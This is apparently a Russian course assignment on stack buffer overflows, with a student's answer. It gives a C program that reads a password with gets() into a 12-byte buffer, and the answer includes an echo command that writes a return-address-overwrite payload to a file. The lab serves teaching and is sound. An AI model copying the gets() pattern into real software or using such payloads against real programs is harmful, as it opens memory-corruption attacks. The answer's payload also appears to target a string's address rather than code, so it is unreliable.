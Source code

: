 ## Задание 5 Функции

1) Переписать абонентский справочник с использованием функций
2) Имеется программа (исходный код которой приводится ниже,
компилировать с ключами: -fno-stack-protector -no-pie). Вам необходимо
произвести анализ программы с помощью отладчика для выяснения длины
массива для ввода пароля и адреса ветки условия проверки корректности
ввода пароля, которая выполняется при условии совпадения паролей.
Ввести пароль (строку символов)таким образом, чтобы перезаписать адрес
возврата на выясненный адрес (есть символы которые нельзя ввести с
клавиатуры, поэтому можно использовать перенаправление ввода(<) при
запуске программы).

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int IsPassOk(void);

int main(void){
    int PwStatus;
    puts("Enter password:");
    PwStatus = IsPassOk();
    if (PwStatus == 0) {
        printf("Bad password!\n");
        exit(1);
    } else {
        printf("Access granted!\n"); // Строка для которой нужно выяснить адрес
    }
return 0;}

int IsPassOk(void){
    char Pass[12];
    gets(Pass);
    return 0 == strcmp(Pass, "test");
}
```

## Ответ
1. Адрес возврата
![alt text](image-1.png)
2. Адрес строки "Access granted!" 0x402022
![alt text](<Screenshot from 2024-06-30 11-45-54.png>)
3. Адрес строки "Access granted!" это 0x402022. В формате little-endian это будет \x22\x20\x40\x00.
4. (echo -n -e "AAAAAAAAAAAA\x22\x20\x40\x00") > exploit.txt
5. ![alt text](image-2.png)